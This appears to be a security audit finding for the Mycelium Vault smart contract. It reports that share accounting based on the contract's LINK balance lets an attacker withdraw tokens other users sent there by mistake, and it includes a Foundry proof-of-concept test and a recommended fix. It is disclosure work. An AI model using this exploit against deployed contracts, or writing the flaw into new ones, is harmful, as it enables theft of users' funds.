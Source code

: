 8olidity

medium

# Steal their money

## Summary
Steal their money
## Vulnerability Detail
BalanceOf (address(this)) because the convertToShares() calculation is faulty, using IERC20(LINK).balanceof (address(this)), when the LINK and mylink in the contract do not match, the attacker can withdraw all the money in the contract by doing the following.

poc

```solidity
    // 1.Alice is the attacker. Deposit (1)
    // 2.But Alice can withdraw all the money Bob accidentally sent to the Vault contract
    function testToManyShare() public {
        link.mint(alice, 1); 
        link.mint(bob, 1000);

        vm.startPrank(alice);
        link.approve(address(vault), 1);
        vault.deposit(1);
        vm.stopPrank();

        vm.startPrank(bob);
        link.transfer(address(vault),1000);
        vm.stopPrank();


        vm.startPrank(alice);


        emit log_named_uint("share",vault.totalShares());
        emit log_named_uint("supply",vault.totalSupply());

        emit log_named_uint("before mylink",vault.balanceOf(alice));
        emit log_named_uint("before link",link.balanceOf(alice));
        assertEq(link.balanceOf(alice),0);
        vault.withdrawAll();

        emit log_named_uint("after mylink",vault.balanceOf(alice));
        emit log_named_uint("after link",link.balanceOf(alice));
        assertEq(link.balanceOf(alice),1001);// Withdraw the full amount of the contract

    }
```

## Impact
Steal their money
## Code Snippet
https://github.com/sherlock-audit/2022-10-mycelium/blob/main/mylink-contracts/src/Vault.sol#L614
```solidity
    function convertToShares(uint256 _tokens) public view returns (uint256) {
        uint256 tokenSupply = totalSupply(); // saves one SLOAD
        if (tokenSupply == 0) {
            return _tokens * STARTING_SHARES_PER_LINK;
        }
        return _tokens.mulDivDown(totalShares, tokenSupply);
    }
```

## Tool used

Manual Review

## Recommendation
Do not rely on link.balanceof(address(this)) to calculate the value of mylink